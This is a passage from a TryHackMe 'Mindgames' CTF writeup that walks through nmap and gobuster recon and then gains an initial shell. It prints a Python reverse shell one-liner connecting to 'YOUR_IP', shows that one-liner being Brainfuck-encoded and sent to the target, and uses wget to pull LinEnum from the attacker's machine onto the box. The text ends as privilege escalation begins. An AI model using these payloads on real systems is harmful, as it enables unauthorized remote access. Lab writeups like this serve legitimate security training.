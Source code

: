 # TryHackMe Mindgames Writeup

Challenge Link: [Mindgames](https://tryhackme.com/room/mindgames)

Mindgames is a hard rated box on TryHackMe. We're tasked with enumerating, gaining initial access, then a somewhat tricky privilege escalation using a Library Load via OpenSSL.

## Recon

There wasn't that much enumeration to do since we only found 2 ports open: 22 running ssh and 80 running a HTTP server from our NMAP scan.

```markdown
# Nmap 7.80 scan initiated Tue Jun 16 23:26:12 2020 as: nmap -sC -sV -o nmap 10.10.91.145
Nmap scan report for 10.10.91.145
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We see that port 80 is open, so I decided to run a GoBuster scan to see if we could find anything. After about 10 minutes of scanning, I figured there were no directories on the site.
```markdown
root@kali:~/THM/mindgames# gobuster dir -u 10.10.91.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.91.145
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/17 10:21:52 Starting gobuster
===============================================================
Progress: 19932 / 87665 (22.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/06/17 10:29:03 Finished
===============================================================
```

## Initial Shell

Let's go check out the page!
![image]({{0xtaylur.github.io}}/assets/mindgames_page.png)

Hmmm, very intersting. Seems as if the the page decodes the _Brainfuck_ programming language. Let's see what happens when we throw the "Hello, World" section into the textbox.
![image]({{0xtaylur.github.io}}/assets/hello_world.png)

It just prints _"Hello, World"_. Now let's see what happens when we try it with the Fibonacci brainfuck text.
![image]({{0xtaylur.github.io}}/assets/fibonacci.png)

So it seems like it it runs the actual brainfuck progamming language. Let's see if we can try to get a reverse shell with this knowledge. I headed over to the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and used the python reverse shell code.
```markdown
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

After I changed the default IP in that code block to my tun0 IP.(You can find that out by using the command _ifconfig_ in your terminal).I started a netcat session listening on port 1234. I then headed over to a brainfuck encoder to convert it, let's throw this code into the mindgames site and see if we can get an initial shell.

We successfully get a reverse shell as user: _mindgames_
![image]({{0xtaylur.github.io}}/assets/initial_shell.png)

From here, we can go back one directory and read into _user.txt_
![image]({{0xtaylur.github.io}}/assets/user.png)

## Privilege Escalation

Let's start off with using LinEnum to see if we can look into any interesting files that we can use to start our privilege escalation. On your host machine, change into your directory where you have _LinEnum_ stored. If you do not have LinEnum you can get it [here](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) by using the _wget_ command.

On your host machine, start a SimpleHTTPServer on port 8000 by using this command.
```markdown
python -m SimpleHTTPServer
```

Change into the /tmp directory on your reverse shell, we can use the _wget_ command to put LinEnum.sh on the machine so we can run it.
```markdown
$ wget YOUR_IP:8000/LinEnum.sh
--2020-06-17 15:36:21--  http://YOUR_IP:8000/LinEnum.sh
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

     0K .......... .......... .......... .......... .....     100%  106K=0.4s

2020-06-17 15:36:22 (106 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
```

Now let's make it an executable file, by using _chmod +x LinEnum.sh_. Run LinEnum by using "./LinEnum.sh"


